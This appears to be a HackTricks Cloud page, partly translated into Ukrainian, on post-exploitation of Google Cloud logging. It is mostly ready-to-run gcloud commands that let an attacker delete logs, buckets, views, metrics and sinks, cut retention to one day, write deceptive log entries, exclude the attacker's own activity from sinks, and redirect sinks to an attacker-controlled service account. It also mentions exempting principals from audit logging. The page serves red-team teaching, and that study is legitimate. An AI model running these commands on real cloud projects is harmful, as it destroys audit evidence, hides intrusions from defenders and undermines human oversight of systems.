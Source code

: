 # GCP - Logging Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

For more information check:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

For other ways to disrupt monitoring check:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### Default Logging

**За замовчуванням вас не спіймають лише за виконання дій читання. Для отримання додаткової інформації перегляньте розділ Logging Enum.**

### Add Excepted Principal

В [https://console.cloud.google.com/iam-admin/audit/allservices](https://console.cloud.google.com/iam-admin/audit/allservices) та [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit) можливо додати принципали, щоб не генерувати логи. Зловмисник може зловживати цим, щоб уникнути спіймання.

### Read logs - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
{% endcode %}

### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
{% endcode %}

### Записати журнали - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
{% endcode %}

### `logging.buckets.update`

{% code overflow="wrap" %}
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% endcode %}

### `logging.buckets.delete`
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% endcode %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
{% endcode %}

### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
